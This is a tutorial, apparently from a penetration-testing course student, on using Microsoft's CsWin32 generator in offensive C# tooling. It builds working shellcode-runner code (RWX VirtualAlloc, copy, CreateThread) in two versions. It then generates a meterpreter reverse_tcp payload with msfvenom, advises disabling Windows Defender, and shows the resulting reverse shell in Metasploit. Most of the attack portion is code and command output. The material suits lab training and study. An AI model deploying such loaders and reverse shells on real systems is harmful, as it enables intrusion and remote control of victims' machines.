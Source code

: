 During Offensive Security’s [Pen 300](https://www.offsec.com/courses/pen-300/) course, you’ll get hands-on experience with various techniques for bypassing Windows defenses using C#. These methods often require the use of unmanaged code. I figure C# was chosen not just for its versatility but also because of its tight integration with PowerShell. You’ll frequently see C# code embedded in PowerShell scripts via `Add-Type` throughout the course.

Building tools to bypass Windows Defender and other defenses has traditionally involved **P/Invoke** (`Platform Invoke`), using the `[DllImport]` attribute. For years, [PInvoke.net](https://pinvoke.net/) has been the go-to repository for grabbing the necessary signatures to drop straight into your code.

An example of using P/Invoke with PInvoke.net might look like this:

```csharp
[DllImport("kernel32.dll", SetLastError = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
static extern bool VirtualFree(IntPtr lpAddress, uint dwSize, uint dwFreeType);
```

Here, the developer manually imports the functions `VirtualAlloc` and `VirtualFree` from `kernel32.dll`, specifying the calling conventions, marshaling behavior, and error handling. 

I’ve always found `[DllImport]` statements to be a bit of a hassle, especially when PInvoke.net was either down or too slow to grab what I needed. That’s when I discovered the [CsWin32 Project](https://github.com/microsoft/CsWin32), which totally changes the game by automating the generation of Win32 `P/Invoke` signatures at compile time. With CsWin32, copying and pasting from PInvoke.net is replaced by an automatic source generator. CsWin32 generates P/Invoke signatures at compile time based on metadata from Windows SDKs, ensuring that the code is always correct, up-to-date, and optimized for the .NET runtime.

The question was whether or not I could transition my code to CsWin32. There is some burden on the programmer when making this transition due to the Win32 APIs being native to C/C++ of which I know very little. However after some failures, I was able to transition most of my C# code base over to using CsWin32. There are still cases where you’ll need to fall back on PInvoke.net, especially when dealing with `Zw` or `Nt` functions, which are part of the Native API and generally lack proper documentation. Seeing as how Microsoft is driving the CsWin32 project, I'm not sure those will be included and one needs to use the PInvoke.net signatures and/or consider using C/C++ any code required those methods.

Let’s walk through how to use CsWin32 in offensive tooling by building a simple shellcode execution program. We’ll start with the basics: allocating memory, copying the shellcode into it, and spinning up a thread to run the payload. Below is a basic example of an injection attack. Using PInvoke.net signatures the C# code might look like the following:

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {

            byte[] buf = new byte[511] {<shellcode};
            int size = buf.Length;
            
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

There are three of the `[DllImport]` statements, but as the code complexity grows, one can end up with a great many `[DllImport]`, but by using CsWin32, the amount of code that is needed for this simple injection is reduced to something I think looks nicer.

```csharp
using System;
using System.Runtime.InteropServices;
using Windows.Win32;
using Windows.Win32.System.Memory;
using Windows.Win32.Foundation;

namespace ShellCodeRunnerCsWin32
{
    internal class Program
    {

        static unsafe void Main(string[] args)
        {

            byte[] buf = new byte[###] {<shellcode>};

            UIntPtr msize = (UIntPtr)(uint)buf.Length;
            
            void* allocatedMemory = PInvoke.VirtualAlloc(null, msize, VIRTUAL_ALLOCATION_TYPE.MEM_COMMIT, PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);

            Marshal.Copy(buf, 0, (IntPtr)allocatedMemory, buf.Length);

            Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE allocatedMemoryPointer = (Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE)Marshal.GetDelegateForFunctionPointer((IntPtr)allocatedMemory,  typeof(Windows.Win32.System.Threading.LPTHREAD_START_ROUTINE));

             HANDLE h = PInvoke.CreateThread(null, (UIntPtr)0, allocatedMemoryPointer, (void*)0, 0 );
            PInvoke.WaitForSingleObject(h, 0xFFFFFFFF);

        }
    }
}
```

### **Summary of the Code Flow:**
1. **Allocate memory** using `VirtualAlloc` with read/write/execute permissions.
2. **Copy shellcode** (or any code) into that allocated memory using `Marshal.Copy`.
3. **Create a new thread** using `CreateThread` that starts execution at the shellcode's memory location.
4. **Wait for the thread to complete** using `WaitForSingleObject`.

### Getting Started with CsWin32

Admittedly, getting CsWin32 installed requires a fair amount of steps. 

1. Once your C# project is open in Visual Studio, navigate to  `Tools -> NuGet Package Manager -> Manage NuGet Packages for Solutions`.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Tools-NuGet.png)

2. Search for cswin32
![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-NuGet-CsWin32.png)

3. Install...this will also install dependencies which need to be accepted (SDK.Win32Metadata, WDK.Metadata, and SDK.Win32Docs)
4. From the CsWin32 github page (https://github.com/microsoft/cswin32): "You should also install the `System.Memory` and `System.Runtime.CompilerServices.Unsafe` packages when targeting .NET Framework 4.5+ or .NET Standard 2.0, as these add APIs that significantly improve much of the code generated by CsWin32"
5. Search for `System.Memory` and `System.Runtime.CompilerServices.Unsafe` and install via the GUI or install via the command line:
```cmd
dotnet add package System.Memory
dotnet add package System.Runtime.CompilerServices.Unsafe
```
6.  within the source code layout create a text file named `NativeMethods.txt`
7.  add the Win32 APIs needed to `NativeMethods.txt` and each method will be auto-generated.

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-NativeMethods.png)


8. The APIs can be viewed under Analyzers in the `Solution Explorer`

![](Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Analyzers.png)

From here, the arguments for the function calls need to be properly 


### Execution

We can start by creating some shellcode with msfvenom.

```bash
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=9001 -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of csharp file: 2623 bytes
byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
...
}
```

Then copy the output `byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8` and paste into the `Main` method of `Program.cs`. Compile the C# code and navigate in a terminal to where the newly created `.exe` is located.

*Note:* Be sure to turn off Defender or configure Defender to not scan the directory where the `*.exe` is located.

![](Images/Coding/CsWin32InsteadOfPInvoke/ShellCodeRunnerCsWin32-Compiled.png)

On my Kali Linux VM, I start Metasploit console to await the reverse shell.

![][Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-Metasploit.png]

...and here it is...

![[Images/Coding/CsWin32InsteadOfPInvoke/CsWin32-MetasploitReverseShell-01.png]]


CsWin32 handles the heavy lifting by auto-generating P/Invoke signatures that are always up-to-date. It saves you from manually managing signatures and gives you a streamlined, efficient way to interface between C# and the native Windows APIs.
